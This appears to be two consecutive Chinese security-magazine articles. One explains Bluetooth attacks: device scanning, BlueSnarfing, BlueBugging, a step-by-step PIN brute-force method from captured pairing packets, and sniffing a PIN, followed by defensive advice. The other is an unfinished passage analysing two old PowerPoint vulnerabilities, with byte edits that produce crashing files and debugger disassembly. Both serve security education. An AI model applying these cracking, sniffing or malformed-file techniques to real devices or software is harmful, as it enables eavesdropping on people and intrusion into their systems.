
## 蓝牙体系及相关术语

### 1）蓝牙协议框架

实际应用中，蓝牙技术的应用一般采用嵌入式技术。在应用系统中嵌入蓝牙协议栈，可为系统提供一个透明的无线网络通信层。完整的蓝牙协议栈如图 1 所示。

蓝牙技术整体框架以 HCI（Host Controller Interface）为界，区分为硬件模块以及上层软件协议两部分。在蓝牙协议栈中，HCI 以上部分通常用软件实现，包括逻辑链路控制和适配协议 L2CAP、串行仿真 RFCOMM、链路管理协议（LMP）、电话替代协议和选用协议；而 HCI 以下部分则用硬件实现，包括基带协议和链路管理协议（LMP），这部分也叫做蓝牙协议体系结构中的底层硬件模块。

底层模块是蓝牙技术的核心模块，主要由射频（RF）单元电路、基带层（Base Band）电路和链路管理层（LMP，Link Manager Protocol）电路组成。这里限于篇幅就不再讨论这些具体的协议了，有兴趣的朋友可以上蓝牙官方网站查询具体资料。

### 2）蓝牙通信的主从关系及配对

蓝牙技术规定每一对设备之间进行蓝牙通信时，必须一个为主角色，另一为从角色，才能进行通信。通信时，必须由主端进行查找，发起配对，建链成功后，双方即可收发数据。理论上，一个蓝牙主端设备，可同时与 7 个蓝牙从端设备进行通信。

一个具备蓝牙通信功能的设备，可以在两个角色间切换，平时工作在从模式，等待其他主设备来连接；需要时，转换为主模式，向其他设备发起呼叫。一个蓝牙设备以主模式发起呼叫时，需要知道对方的蓝牙地址、配对密码等信息，配对完成后，可直接发起呼叫。

### 3）蓝牙配对及认证过程一览

蓝牙设备通过初始配对过程建立安全连接。在此期间，一个或两个设备需要输入 PIN 码，内部算法利用该代码生成安全密钥，安全密钥随后用于验证将来任何时候的设备连接。图 2 即为两个蓝牙设备通过配对建立连接的示意图。
### 4）关于 PIN 码

个人识别码（PIN）是一个 4 位或更多位的字母数字代码，该代码将临时与产品相关联，以便进行一次安全配对。产品所有者只能出于配对目的与信任的个人和信任的产品共享 PIN 码。不输入此 PIN 码，则不能进行配对。无法配对，则无法建立正常蓝牙通信，也就无法使用蓝牙耳机、蓝牙 GPS 等。

### 5）蓝牙安全模式

在其产品中使用 Bluetooth 无线技术的产品厂商可以采取几种方法来实现安全性。对于两台设备之间的 Bluetooth 访问，共有 3 种安全模式。

- 安全模式 1：无安全模式
- 安全模式 2：服务级安全模式
- 安全模式 3：设备级安全模式

尽管产品厂商会决定采用哪种安全模式，但对于笔记本电脑之类的产品，用户是可以根据需要自行定义的。需要强调的是，设备和服务也有不同的安全级别。对于设备有 2 级：“信任设备”和“不信任设备”。信任设备与另一方设备一经配对，便可无限制地访问所有服务。对于服务，则定义了 3 个安全级别：需要授权和验证的服务、只需要验证的服务以及对所有设备都公开的服务。
图 3

### 6）其他术语

蓝牙设备地址：用于识别每个蓝牙设备的 48 位地址。这在技术规格中通常被称为 BD_ADDR。

配对：在两个蓝牙设备间建立新关系的过程。此过程中将交换链路密钥（在请求建立连接之前或在连接阶段）。

LMP 配对：验证两个设备并创建共用链路密钥的程序；共用密钥是信任关系或安全连接的基础。

## 蓝牙面临的安全问题

虽然作为短距离无线技术的一种，蓝牙技术已经提供了诸如密钥管理、认证和信息加密等安全机制。然而，在过去的 2、3 年，一些针对蓝牙技术的攻击方法被陆续披露，包括在拉斯维加斯的 BlackHat 黑客大会上，几乎每年都会公开关于无线技术的最新安全研究。目前，蓝牙技术的安全问题主要有以下几点。

- 一直以来，整个蓝牙系统的安全性主要依赖于 PIN 码的保密性。再加上由于安全意识不高，用户普遍所选择的 PIN 码长度通常较短，导致 PIN 码被破解的可能性大大增加。
- 蓝牙协议所使用的加密算法是由蓝牙设计团队自行开发的。在当前 MD5、SHA1 等高强度算法相继被攻陷的现状下，相对简单的蓝牙加密算法已经是朝不保夕。
- 由于手机、PDA 和笔记本电脑上也开始普遍装备蓝牙模块，于是心怀恶意的攻击者们也开始将目标放到了保存重要信息的 PDA 和同样便携的笔记本电脑上。尤其是处于显著地位的政府及商务人士，其个人隐私及机密资料就更加能引起攻击者的兴趣。
- 大多数厂商生产的蓝牙模块或设备时已将安全功能限制或屏蔽，导致用户无法根据需要修改其安全级别，这种令人遗憾的措施间接鼓励了潜在攻击行为。

## 蓝牙攻击分类

同无线攻击一样，蓝牙攻击也按照原理分为多种方式，具体有 BlueBug、BlueDump attack、BlueSnarf 等，涵盖了蓝牙扫描、模块漏洞利用、暴力破解、交互数据嗅探等多个方面。下面我们就分别来看一看其具体实现。

### 1）Bluetooth Scan 蓝牙设备扫描

随着带有蓝牙功能的智能手机及蓝牙适配器价格的下降，促使更多的人开始接触蓝牙技术。尤其是在蓝牙耳机等附加设备的推动下，使得开启了蓝牙功能的智能手机、PDA 等比比皆是。去年我去赛格电脑城给 PDA 找配件，随手打开笔记本，使用笔记本自带的蓝牙模块就可以轻易地发现周围如此多的蓝牙设备，如图 4 所示，其中大部分是智能手机。至于机场、大型宾馆、会馆等人口稠密区域，开启蓝牙的设备更是数不胜数。
图 4

除了通过查看其中对应设备属性来识别目标蓝牙设备类型外，还可以通过分析通信中的蓝牙数据包来获知目标设备类型，如下为蓝牙设备扫描中的交互数据报文（为方便大家查看，我已将主要部分提取）。

```text
Frame 73: (Controller) Len=17
HCI:
HCI Event:
Class of Device:
Service Class:
Bit_22: Telephony (Cordless telephony, Modem, Headset service,...)
Bit_20: Object Transfer (v-Inbox, v-Folder,...)
Bit_19: Capture (Scanner, Microphone,...)
Bit_17: Networking (LAN, Ad hoc,...)
Major Device Class: Phone (cellular, cordless, payphone, modem,...)
Minor Device Class: Cellular
Format type: 0x0


```

可以看到，在 Class of Device 栏中，Major Device Class 即主要设备类型已经识别出为 Phone，即电话；而在下栏 Minor Device Class，即次要设备类型处显示为 Cellular。与前面内容连在一起对应的设备，其 16 进制编码为 5a0204，对应是 Cell Phone，也就是我们所说的移动电话，即手机设备。

### 2）BlueSnarfing 攻击

BlueSnarfing 允许恶意攻击者利用 Bluetooth 无线技术，在没有提示手机用户已连接至设备的情况下，访问存储在启用 Bluetooth 的手机上的数据。以此方式可访问的信息包括电话簿和相关图像、日历及 IMEI（国际移动设备识别码）。通过将设备的蓝牙模块设为不可发现模式，可以大大增加查找和攻击设备的难度。此方法主要是利用早期手机蓝牙模块自身缺陷来实现的。

大家可以到 SecurityFocus.com 上查看一下 Bugtraq ID: 9032 的漏洞公告，此为其最早的漏洞利用工作原理。由于能够进行 BlueSnarf 攻击的目标多数为早期流行的手机型号，比如 NOKIA 6310、6310i、8910、8910i 及 Sony Ericsson（索爱）T68i、T610 等，所以现在此类攻击的威胁性已经不大；但是，并不是说新款手机就没有被同样方式入侵的风险。

不过多少令人欣慰的是，作为受到此类威胁的手机主流品牌 NOKIA 及 Sony Ericsson，早已明确表示出对此类攻击的关注，并已经在之后生产的手机中修正了对应的蓝牙芯片，且在官方通告中建议广大受影响的手机用户更换或者升级自己的手持设备。

图 5 为针对 Nokia 6600 的探测，结果表明是可以进行 BlueSnarf 攻击的。
图 5

图 6 为进行 BlueSnarf 攻击成功后获取到目标电话通讯簿的界面。

### 3）BlueBugging 攻击

BlueBugging 允许恶意攻击者利用 Bluetooth 蓝牙无线技术，在事先不通知或提示手机用户的情况下，访问手机命令。此缺陷可以使恶意的攻击者通过手机拨打电话、发送和接收短信、阅读和编写电话簿联系人、偷听电话内容以及连接至互联网。要在不使用专门装备的情况下发起所有这些攻击，黑客必须位于距离手机蓝牙有效工作范围内。
图 6

此类攻击最早出现于 2005 年 4 月，主要利用蓝牙自身缺陷导致，受其影响的机型也主要为 2006 年前后的 NOKIA 及索爱的几款机型，现在新款的手机已基本不受其影响。

需要说明的是，这是独立于 BlueSnarfing 的缺陷，不一定会影响遭受 BlueSnarfing 的相同手机。

### 4）BlueJacking 攻击

BlueJacking 指手机用户使用 Bluetooth 蓝牙技术匿名发送名片的行为。BlueJacking“不”会从设备删除或修改任何数据。这些名片通常包括一些玩笑、挑逗或骚扰性的消息，而不是通常大家所说的姓名和电话号码。BlueJacker 通常会寻找 ping 通的手机或有反应的用户，随后他们会发送更多的其他个人消息到该设备。同样，要进行 BlueJacking，发送和接收设备之间的距离必须在蓝牙有效通信范围之内。

从攻击本质上说，接收 BlueJacking 消息并不会对自身的手机造成危害，但接受 BlueJacking 文件会存在感染恶意代码的可能，所以为避免垃圾消息群发攻击及无意识的私人消息泄露，作为手机机主应拒绝将此类联系人添加至通讯簿。设为不可发现模式的设备不容易受到 BlueJacking 之类的攻击。
图 7

5300 进行 BlueJacking 攻击，通过蓝牙发送恶意名片的界面。

### 5）蓝牙 PIN 码破解攻击

由于在默认情况下，市面上销售的蓝牙通信器材普遍在出厂前就已经被设定了默认连接 PIN 码，所以，基本上连接所有的蓝牙设备都需要先输入正确的连接 PIN 码，并在通过验证后才可以进行蓝牙通信。我们先来看看 PIN 的编制机制及过程。

为了达到非法连接蓝牙设备、进一步攻击的目的，破解蓝牙设备连接 PIN 码，也成为攻击者们的首要目标之一。一般来说，通过 Bluetooth 嗅探抓包，即可捕获蓝牙设备之间的通信数据报文，比如手机与蓝牙耳机之间、手机与手机之间、笔记本与手机之间的通信数据等。而双方之间的所有协商交互过程，也会一目了然。也就是说，在公共场所进行蓝牙设备配对是很容易被监听的。
图 8

为方便大家理解，我这里借用一下来自以色列特拉维夫大学的蓝牙 PIN 码破解研究论文的部分原理内容，图 8 为本地蓝牙 PIN 码暴力破解的原理图。

表 1 中列出了在配对和认证过程中，两个蓝牙设备 A 和 B 之间交换的关键信息。

| # | 源 | 目的 | 消息 | 长度 | 备注 |
|---|---|---|---|---|---|
| 1 | A | B | IN_RAND | 128 位 | 明文 |
| 2 | A | B | LK_RANDA 异或 Kinit | 128 位明文 | LK_RANDA 与 Kinit 异或后再传送到 B，B 收到消息后，解开得到 LK_RANDA |
| 3 | B | A | LK_RANDB 异或 Kinit | 128 位明文 | LK_RANDB 与 Kinit 异或后再传送到 A，A 收到消息后，解开得到 LK_RANDB |
| 4 | A | B | AU_RANDA | 128 位明文 | 明文 |
| 5 | B | A | SRES | 32 位明文 | 明文 |
| 6 | B | A | AU_RANDB | 128 位明文 | 明文 |
| 7 | A | B | SRES | 32 位明文 | 明文 |

表 1

结合上面列出的破解 PIN 码原理图和消息分布表，就可以得出蓝牙 PIN 码破解的具体步骤。

- 第一步，列举出所有可能的 PIN 值；如果假定 PIN 长度为 4 位，那么可能的 PIN 取值从 0000 到 9999 之间。
- 第二步，按照顺序取 PIN 列表中的第一个值，并取得消息 IN_RAND 和 BD_ADDR，就可以通过 E22（注意，E22 算法是公开的）算法，计算得到 Kinit。
- 第三步，根据消息 2 和消息 3，由上面计算得到的 Kinit，反推计算出 LK_RANDA 和 LK_RANDB。
- 第四步，根据 LK_RANDA 和 LK_RANDB 以及两个设备的物理地址等信息，计算得到 Kab。
- 第五步，由 Kab 和消息 4（AU_RANDA），计算得到 SRES，并与信息 5 的 SRES 比较。同样地，用 Kab 和 AU_RANDB，计算得到 SRES，并与信息 7 进行比较。
- 第六步，如果第五步的消息比较相等，则给定的 PIN 是正确的；如果不匹配，则回到第二步，取 PIN 列表的下一个 PIN，重复后续步骤，直到找到正确的 PIN 为止。

既然知道了破解原理，那么我们在截获到关键的 PIN 码交互数据报文后，便可过滤出实际需要的内容。如下，其中 Master 为主蓝牙设备，Slave 为从蓝牙设备，即 Master 向 Slave 发出蓝牙连接请求。

```text
5,Master,DM1,LMP_version_req,4A 02 0A 00 DB 04
12,Slave,DM1,LMP_version_res,4C 01 01 00 2C 02
#### 蓝牙设备进行协议确认及协商
19,Master,DM1,LMP_features_req,4E BF FE 0F 00 18 18 00 00
26,Slave,DM1,LMP_features_res,50 BF 28 21 00 00 00 00
33,Master,DM1,LMP_host_connection_req,66
62,Slave,DM1,LMP_accepted : LMP_host_connection_req,06 33
66,Slave,DM1,LMP_setup_complete,63
69,Master,DM1,LMP_setup_complete,62
73,Master,DM1,LMP_max_slot,5A 05
75,Master,DM1,LMP_max_slot_req,5C 05
120,Slave,DM1,LMP_accepted : LMP_max_slot_req,06 25
127,Master,DM1,LMP_clkoffset_req,0A
134,Slave,DM1,LMP_clkoffset_res : 17542(0x4486),0C 86 44
```

```text
137,Master,DM1,LMP_name_req,02 00
146,Slave,DM1,LMP_name_res : Nophretete,04 00 0A 4E 6F 70 68 72 65 74 65 74 65 00 00 00 00
153,Master,DM1,LMP_features_req,4E BF FE 0F 00 18 18 00 00
160,Slave,DM1,LMP_features_res,50 BF 28 21 00 00 00 00
187,Master,DM1,LMP_version_req,4A 02 0A 00 DB 04
194,Slave,DM1,LMP_version_res,4C 01 01 00 2C 02
5933,Master,DM1,LMP_in_rand,10 EC 50 3F 96 EF 26 97 7E 4E DE 35 10 9D 6A 91 68
6004,Slave,DM1,LMP_name_req,03 00
6011,Master,DM1,LMP_name_res : Audit,05 00 05 41 75 64 69 74 00 00 00 00 00 00 00 00
13536,Slave,DM1,LMP_accepted : LMP_in_rand,06 08
13561,Master,DM1,LMP_comb_key,12 ...
13568,Slave,DM1,LMP_comb_key,12 ...
# 连接PIN码确认及匹配完毕
13601,Master,DM1,LMP_au_rand,16 97 30 ED DB FD 30 1B B8 CE 1A 20 A8 C3 D2 79 D1
13603,Master,DM1,LMP_au_rand,16 97 30 ED DB FD 30 1B B8 CE 1A 20 A8 C3 D2 79 D1
13605,Master,DM1,LMP_au_rand,16 97 30 ED DB FD 30 1B B8 CE 1A 20 A8 C3 D2 79 D1
13607,Master,DM1,LMP_au_rand,16 97 30 ED DB FD 30 1B B8 CE 1A 20 A8 C3 D2 79 D1
13609,Master,DM1,LMP_au_rand,16 97 30 ED DB FD 30 1B B8 CE 1A 20 A8 C3 D2 79 D1
13611,Master,DM1,LMP_au_rand,16 97 30 ED DB FD 30 1B B8 CE 1A 20 A8 C3 D2 79 D1
13613,Master,DM1,LMP_au_rand,16 97 30 ED DB FD 30 1B B8 CE 1A 20 A8 C3 D2 79 D1
13615,Master,DM1,LMP_au_rand,16 97 30 ED DB FD 30 1B B8 CE 1A 20 A8 C3 D2 79 D1
#### 蓝牙设备间通信中
```

接下来，就可以将过滤出的完整 PIN 码加密交互报文，导入暴力破解软件进行破解，如图 9 中显示破解出 4 位 PIN 码，只花费了 0.2 秒。

经过改进的 PIN 码破解工具，其破解速率已经从以前的 1000 key/s 提升到了 65000 key/s，这图9

这个速率会随着设备硬件性能的提升而有所变化。根据来自特拉维夫大学的研究报告，在奔腾4 3.0GHz的机器上测试结果显示，破解4位的PIN仅仅需要0.063秒。由于大部分手机、PDA及蓝牙耳机等连接PIN码被设计成固定的位数，一般都是4位数，所以参考上面的破解速率，即便是一般的家用计算机，破解4位数的PIN码也只花费不到0.1秒的时间，这确实是件很能打击一些人自信的事情。

再加上很多用户都没有或者根本不知道修改默认PIN码，导致一个令人哭笑不得的现象出现：80%以上的智能手机、PDA及蓝牙设备的连接PIN码都是出厂时默认设置的“0000”“1111”或者“1234”。这似乎已经不能用粗心来解释了吧？尤其是一些厂商不允许用户修改PIN码，更增加了被猜到的可能（就这么几种组合，都不用暴力破解了，人肉破解上吧）。

而对于一些其他允许设置高位数连接PIN码的蓝牙设备，比如支持6位、8位甚至更高的商用蓝牙识别设备、军警用蓝牙战术/保障器材等，也不能因此掉以轻心。原因是目前PIN码大部分还只是支持纯数字的PIN码，还很少支持“大小写字母+数字”“特殊符号+数字”等组合PIN码。所以，从基本的概率计算就可以知道：

```text
6位纯数字PIN码可能组合数 = 10 × 10 × 10 × 10 × 10 × 10 = 1000000

7位纯数字PIN码可能组合数 = 10 × 10 × 10 × 10 × 10 × 10 × 10 = 10000000

……依此类推。
```

那么，再参考上面提及的破解速率，可以看到，破解7位到9位的PIN码花费的时间将会是……

2分钟～277分钟，这确实不是个令攻击者乐观的数值，但也不是个让我们感到欣慰的数值，毕竟4个多小时就能破解开的加密强度还是让人有些汗颜。所以对于有着高端安全要求的环境，在启用Bluetooth设备时应采用10位以上的PIN码，那么破解出这样长度的PIN码就会至少需要2天，甚至半年以上。这样的话，是不是就没有更好的办法对PIN码进行攻击了呢？其实作为目标明确的攻击者而言，还有一个选择就是——Bluetooth Sniff。

## 6) 蓝牙通信Sniff嗅探攻击

由于蓝牙通信和传统的Wireless无线环境一样，基本上都是在空中进行广播数据。因为从理论上而言，任何人都可以截获周围几米内正在传输的蓝牙通信数据，也就是说，只要使用特定的设备，怀有恶意的攻击者是可以进行拦截、伪造、破坏正常的蓝牙通信的。这种攻击方式也就是我们常常提到的Sniff嗅探攻击，这里由于对象的不同，也就变成了Bluetooth Sniff——蓝牙嗅探攻击。

为了更具有广泛意义，下面我以带蓝牙功能的手机与笔记本之间建立蓝牙对等网这种稍微复杂的环境为例，而不再以蓝牙耳机与手机进行蓝牙配对等其他简单方式讲述嗅探攻击。因为在前者环境下，我们可以设定位数较长的PIN码。下面我们就来看看在蓝牙局域网的状态下，如何通过嗅探来截获并分析出蓝牙设备的验证PIN码。

关于嗅探的原理这里限于篇幅不再深入讲述，但基本方式和无线嗅探一样，在指定蓝牙适配器后，就可以进行蓝牙数据的嗅探。加上很多蓝牙设备会定时进行PIN码验证，所以攻击者只需要稍微耐心地等待即可。图10为截获到的手机与笔记本进行蓝牙通信的数据报文。从图中可以看到，在捕获的蓝牙设备通信报文中，在顺序为80的数据报文中出现了关键性的PIN_Code_Request_Reply蓝牙设备PIN应答报文，具体如下。

图10

```text
80 Command    0x040d
PIN_Code_Request_Reply    23    26    00:00:
07.4460    2008-2-12 23:53:00.5584
```

打开此数据报文架构分析，得到如下的结果。

```text
Frame 80: (Host) Len=26
Bluetooth USB:
Type: Command Packet
Total Length: 23
HCI:
HCI Command:
Opcode: 0x040d
Group: Link Control
Command: HCI_PIN_Code_Request_Reply
Total Length: 23
Bluetooth Device Address: 0x00-1a-89-26-cb-c8
LAP: 0x26-cb-c8
UAP: 0x89
NAP: 0x00-1a
PIN Code Length: 7
PIN Code: 0x00 00 00 00 00 00 00 1a 89 37 36 35 34 33 32 31
```

可以看到其中Bluetooth Device Address栏为00-1a-89-26-cb-c8，此为NOKIA 5300型手机内置蓝牙设备地址（BD_ADDR）。在其下栏PIN Code Length处，可以清楚地看到截获到该PIN码长度为7位，而在最后PIN Code栏处，其末尾为7位16进制代码，从右至左读出为31323334353637，转换为ASCII码即可得出数值为1234567；同时可以看到，这个数值和图10右侧Character窗口分析数值完全一致，该数值就是蓝牙设备7位数的连接PIN码！

到这里，作为攻击者而言，已经成功截获了连接PIN码，也就可以作为之后进一步攻击使用，比如截听蓝牙耳机通信语音内容等。对于一些已经建立蓝牙通信的设备，怀有恶意的攻击者也可以通过使用定点频段阻断攻击，来达到迫使已经匹配过的蓝牙设备断开、重新进行PIN验证匹配，从而截获PIN码的目的，这样也就不需要等待下一次蓝牙设备间的PIN码验证了。

那么，如果我们采用了前面提到的蓝牙最高安全模式：设备级强制安全呢？是不是就可以保护我们的PIN码不被截获呢？

很遗憾，由于蓝牙自身算法的脆弱性，启用设备级安全模式只是强化了蓝牙设备间的验证方式，但并没有改变在数据传输中PIN码的加密存储状态。打个比方，就好像我们平时访问一个网站，这个网站才从静态页面升级成动态页面，但由于没有启用SSL之类的公钥强化措施，所以相对于嗅探器而言，网站访问数据流从本质上没有改变，登录账户和密码还是明文，依然是可见的。不过多少令人乐观的是，作为军警用无线战术互联网的研究人员，早已发现了蓝牙的不足，并已经在强化及完善设备安全的研究中进行了改进。毕竟，谁也不希望在进行反恐行动时，犯罪分子也可以共享警方的设备吧？

### 7）关于蓝牙病毒

经常被提及的蓝牙病毒就是Cabir worm，它是一种恶意软件，也被称作malware。一旦安装到手机上后，它会利用Bluetooth技术把自己发送到其他类似的易受攻击设备上。其攻击原理就和前面提及的BlueJacking攻击方式是一样的，只不过由于它能自我复制，因此被归类为蠕虫病毒。Cabir worm目前仅对使用Symbian 60系列用户界面平台以及采用Bluetooth无线技术的手机产生影响，但相信已经诞生出针对大部分主流蓝牙手持设备的同类型病毒。此外，用户必须手动接收该病毒并且安装malware后，才能感染手机，所以对于普通用户而言，拒绝手机上出现的不明连接请求是个简单可行的防御方法。更多关于此类病毒的资料，大家可以到各大杀毒厂商官方网站了解。

## 一些关于蓝牙安全技术的误解

### 误解1：“蓝牙只是一种短距离通信技术，不会有什么危害”

生活中有这样想法的人确实有很多，除了广大的普通用户，其中还不乏一些资深的技术人员。那么，对于持有这样观点的用户，我只能说：很遗憾，也许问题比你想的要严重。

现在普遍使用的Class 2级别的蓝牙适配器，都已经支持10米左右的信号传输能力。而一些经过强化的外置蓝牙适配器，也在理论上已经达到了100米左右，实际可工作在60米距离。

和我之前在黑防发表的无线攻击文章里提及的无线远程攻击原理一样，如果再提升发射功率的话，蓝牙适配器的有效工作距离是可以达到600米以上的。这样的话，其安全形势就真的不容乐观了。

### 误解2：“将蓝牙设置成不可见就不会被探测到”

现在很多带有蓝牙模块的手机、PDA等设备都提供几种蓝牙开启方式：持续可见、暂时可见及隐藏。用户可以根据需要，来设定是否允许其他设备通过蓝牙搜索到自身设备。为了安全起见，一些稍有安全意识的用户会将自己的手机设置为“不可见”。

其实所谓的“可见”，就是指蓝牙设备在接收到另一个蓝牙设备的连接请求时，会主动做出回应，将自身的Bluetooth Device Address（BD_ADDR）发送给对方。而这样的行为将会导致蓝牙设备相关信息暴露的可能，故设置为“不可见”就是使自己的蓝牙设备在收到其他设备发送的BD_ADDR请求时，直接忽略该请求。

蓝牙设备一旦可以被轻易地探测到，易被攻击的可能性会升高很多。尽管采用了“不可见”的设置，一样有主动探测工具可以“检测”到。图11为检测到的开启蓝牙功能的索尼爱立信W700C音乐手机，可以看到直接被识别出为Cell Phone即手机，其Device address也直接被探测出了。

甚至已经连接的蓝牙耳机，也可以被识别出来。如图12这款蓝牙耳机，可看到显示为Audio Headset，品牌、型号及Device address都被识别得清清楚楚。

由此可见，蓝牙技术在方便我们工作生活的同时，已经开始暴露出其设计上的不足和一些潜在的安全隐患。我想，应该没有人希望自己也成为下一个“艳照门”吧，玩笑而已。

## 蓝牙安全防御小结

- 1. 对于智能手机、PDA等持有用户，在不使用蓝牙功能时，应该关闭该功能模块，以防止不必要的私有信息泄露。
- 2. 对于经常使用蓝牙功能的用户，在成功配对后，应将蓝牙设置为“不可见”或“隐藏”，以尽可能避免被蓝牙扫描工具发现。
- 3. 在使用PIN码进行蓝牙连接验证时，对于可以修改PIN码长度的智能手机及PDA，一定要将PIN码长度设置为8位以上；而对于使用蓝牙进行移动设备与笔记本之间通信的用户，更应该设置连接PIN码为10位以上；军警用户应达到12位以上。
- 4. 正常情况下，当突然出现蓝牙设备要求重新输入PIN码的情况，要特别注意，极有可能是有攻击者正在进行强制重新配对攻击。
- 5. 蓝牙标准提供了一种验证模式，要求每次通信都要进行配对，这种模式提高了配对过程中交换的消息被窃听的风险，建议不要使用这种配对方式。
- 6. 用户应该始终在相对保密的区域对蓝牙设备进行配对，避免在公共场合配对启用Bluetooth的设备。如果因为某些原因设备取消了配对，应先找一个安全、保密的位置，然后再重新配对设备。
- 7. 此外，对于智能手机用户，应及时升级手机ROM版本，并且定期从官方网站了解最新的操作系统版本中无线、蓝牙等模块修正情况，比如图13按*#06#来查看当前设备版本，再到网站上下载新版ROM进行对应升级即可。

确保上述防御内容的正确执行，就可以很大程度上防止移动设备蓝牙模块被攻击的可能。对于基于大型企业部署的蓝牙设备及军用携带式蓝牙战术器材，其标准定义更高，设备支持性也更为广泛及稳定，故也应进一步强化蓝牙安全验证功能及安全规范。

攻击是一样的，针对蓝牙的攻击技术同样还有很多，比如蓝牙D.O.S、瞄准式频带干扰、伪造劫持数据流等。由于写此文的目的是提供安全技术性指向，给大家带来新的安全理念和新思路，而不是给不法分子实际的操作实例，所以这里就不再深入讨论威力更甚的攻击技术及代码。

## 总结

总的来说，蓝牙攻击技术原理其实和无线攻击是一样的。随着科技和网络的发展，关于什么才是安全的，这个话题无论是钻研黑客攻击技术的朋友，还是从事安全防护技术研究的同行，都已经有了很多体会。我们可以竭力做到防范99.99%的攻击行为，但却无法达到100%，因为黑客技术总是“没有做不到，只有想不到”。这世上，永远都不会有绝对的安全。

适合读者：漏洞爱好者、溢出爱好者  
前置知识：缓冲区溢出基本原理

## PowerPoint

### 漏洞经典案例分析

文/图 xyz123

从2006年初开始，读者时而能从安全杂志或网站上看到一些关于Office漏洞的分析文章，Word、Excel和PPT都曾有过。这些文章的作者理应得到尊重，抛开内容的精彩程度不说，每一个Office漏洞的分析及利用过程都需要花费大量的时间和精力；此外，在国内漏洞研究的特殊氛围下，要做到这样的技术共享，真的需要一些奉献精神。

回到正题，为了在这个缺乏0Day的季节给大家一点鼓励，本文我将为大家分析去年暑假时总结的一个“2006年PPT漏洞的经典案例”。之所以称为经典，是因为这个案例有两个特点：一是由同一个PPT文档fuzz出两个漏洞，通过补丁比较发现它们分别是MS06-028和MS07-015，下文分别称为漏洞A与漏洞B；二是两个漏洞的起因不同，并且都不是传统的堆栈溢出。由于涉及两个漏洞，所以文中我会以“讲一带一”的方式来完成，即对漏洞A的分析利用作比较详细的介绍，漏洞B只给出相当的提示，大家可根据提示尝试分析，也算是与读者的一个互动。

交互吧。

## 漏洞重现

该漏洞是2006年被挖掘出来的，如果大家的Powerpnt.exe补丁已经到最新版本，分别是SP2（11.8135.8132）以及SP3（11.8169.8172），则请暂时重新安装到SP2的最初版本11.6564.6568，以便测试分析。

记得在以前的文章中提到过，SP2最初版本的Powerpnt环境下，新建一个空白的t.ppt文件（打开并建立空白页后保存，大小为9kB），分别以单、双字节的0f进行fuzz，能重现这两个漏洞。

Fuzz的工具相信不少读者已用得很多——FileFuzz，如图1所示。FileFuzz是由老外编写、提供源代码的文件类模糊测试工具，C#、C、Python等语言版本的都有，有兴趣的话大家还可以对它的一些功能进行改进。具体说来，导致漏洞A、B产生的两处文件数据比较类似，定位方法如下：

- 1）用二进制编辑工具WinHex（或UltraEdit）打开t.ppt，搜索字节序列`9F 0F 04 00`。文档中有多处这样的序列，大约到第6、7处（均可），这个序列后面第6个字节由00改为0f，漏洞A即产生，我们保存为VA.ppt，如图2所示。

```text
00 00 00 07 01 92 00 0F 00 00 F0 58
00 9F 0F 04 00 00 00 04 00 00 DF 00
00 00 00 2A 00 00 00 A1 0F 14 00 00
```

图2

- 2）重新编辑t.ppt，搜索字节序列`00 81 01 04`，文档中也有多处，在第一处就停下来（其他几处估计不行），将`00 81`改为`0f 0f`，漏洞B即产生，保存为VB.ppt，如图3所示。

```text
02 00 00 00 04 00 00 00 83 00 0B F0 30 00 00 DF
0F 01 04 00 00 08 83 01 00 00 00 08 86 41 00 00
00 00 BF 01 10 00 10 00 C0 01 01 00 00 08 C5 41
```

图3

保存后，依次打开VA.ppt和VB.ppt，都能看到熟悉的异常提示框，问题代码地址还不同。呵呵，是否觉得简单？过程的确不复杂，但在两年前要想到这样的测试方法，却需要有前瞻性思维。

接下来，自然轮到了漏洞的分析及利用。前面提到，同一个文档fuzz出来的两个漏洞，它们的起因却各不相同。对于有一定漏洞研究经验的朋友，我觉得应该特别提醒一点：不应该被固有思维模式所限制。我们在分析或挖掘一个漏洞的时候，一般会习惯性地想着传统的堆栈溢出（长度+数据的copy，修改ret或SHE），或C++对象指针直接被覆盖（修改后被调用的虚函数指针，call [Exx+disp]，看过以前gyzy分析的MS06-027的读者应该知道了）。事实上，有的漏洞却有新特点，例如漏洞A。下面我们来介绍详细的分析过程。

## 漏洞A 分析及利用

本文的漏洞分析采用中断异常+回溯的方式，分析工具使用IDA Pro+Windbg。双击VA.ppt，出现异常后关闭，然后再双击打开VA.ppt，出现如图4所示的提示框，有时也会出现如图5所示的提示框。这是由于注册表中记录了上次异常情况而导致的，第一次打开文档时是没有的。若不想出现这两个提示框，则在再次打开文档前，删除注册表项`HKEY_CURRENT_USER\Software\Microsoft\Office\11.0\PowerPoint\Resiliency`即可。不过，在调试的时候，这却正好为我们提供了加载调试器的机会。

回到漏洞A，出现图4的时候，先打开Windbg并Attach到Powerpnt进程，然后分别在图4、图5中选“否”和“是”，这样就再次触发了异常，可以看到如图6所示的异常指令。

图4  
图5  
图6

“3001a545 mov eax,[ecx+eax*4+4]”这条powerpnt.exe的指令发生异常，此时eax=0f000004被当作有符号数处理了。对比图2，发现它正好是VA.ppt中的文件数据。该指令临近一个函数结束的地方，执行“d esp”，如图7所示。

图7

我们很容易看到该函数的返回地址为3001a4fe，这个地方离异常指令并不远。不过从调试器中是难以看出这些代码之间的关系的，为了进一步分析，就应该借助IDA了。我用的版本是IDA5.2（老版本也可），反汇编后再次定位到异常指令3001a545，发现它属于函数sub_3001a532，如图8所示。函数返回地址为3001a4fe，前面那条函数调用指令为：

图8

```text
3001A4FB call [eax+70h]
```

显然，[eax+70h]是个动态联编函数，即调用时才确定函数地址（之前是无法看出调用关系的）。代码中出现这样的函数，从数据结构角度上讲，要么是结构体中的函数指针成员，要么是C++对象中的虚函数指针。再回到sub_3001a532，从图8中大概可以看出这个函数的功能是通过文件数据0f000004计算一个数值，并通过eax将该数值返回到上级函数。返回之后的几句指令要看清了：

```text
3001A4FE  mov eax,[eax+1Ch]
3001A501  push ebx
3001A502  push [ebp+0Ch]
3001A505  mov [ebp+8],eax
```

以函数返回的eax为指针，将它指向的位置偏移1Ch处的数值保存在[ebp+8]。那么这个数值究竟用来做什么呢？我们再继续看下面的指令。

```text
3001A512  mov ecx,[ebp+8]
3001A515  mov esi,[eax+8]
3001A518  call sub_3001A54C
```

进入函数sub_3001A54C，如图9所示。

图9

